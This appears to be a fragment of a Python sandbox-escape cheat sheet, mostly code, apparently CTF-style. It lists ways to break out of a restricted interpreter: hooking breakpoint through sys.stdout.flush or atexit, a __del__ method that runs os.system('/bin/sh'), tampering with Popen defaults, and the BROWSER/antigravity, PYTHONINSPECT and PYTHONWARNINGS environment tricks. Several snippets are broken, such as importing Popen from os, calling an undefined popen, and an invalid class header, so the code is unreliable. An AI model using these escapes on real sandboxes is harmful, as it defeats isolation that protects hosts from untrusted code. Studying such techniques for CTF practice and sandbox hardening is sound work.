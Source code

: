```py
sys.stdout.flush=breakpoint
```
```py
import atexit
atexit.register(breakpoint)
```
This requires a tty.
```py
os.environ['PYTHONINSPECT'] = '1'
```
#### magic methods
```py
import os, sys
class X:
    def __del__(self): # called upon module cleanup
        os.system("/bin/sh")
sys.modules["pwnd"] = X()
sys.exit()
```
#### special attributes
```py
import subprocess as sp
from os import Popen
sp.Popen.__init__.__defaults__ = (-1, "/usr/bin/python3", None, None, None, None, True, False, None, {'PYTHONINSPECT':'1'}, None, None, 0, True, False, ()) 
popen('whatever')
```
#### metaclass
```py
>>> class Class("arg2", "arg2", metaclass=print): 0
Class ('arg2', 'arg2') {'__module__': '__main__', '__qualname__': 'Class'}
```

#### environment variables
##### BROWSER
The antigravity trick.
```py
__import__('antigravity', setattr(__import__('os'), 'environ', dict(BROWSER = '/bin/sh -c "ls -la" #%s')))
```
```py
import os, webbrowser
os.environ = dict(BROWSER="/bin/sh -c 'ls -lah' #%s")
webbrowser.open('')
```
##### PYTHONINSPECT
If set to `1`, will launch an interpreter after the code execution (similar to `python3 -i`). Requires a tty.
##### PYTHONWARNINGS
Can force loading of modules (similar to `python3 -W...`)
```sh
$ BROWSER='/bin/sh -c "echo hey!" #%s' python3 '-Wall:0:antigravity.x:0:0' -c 'print("listen!")'
# hey!
# Invalid -W option ignored: unknown warning category: 'antigravity.x'
# listen!
```
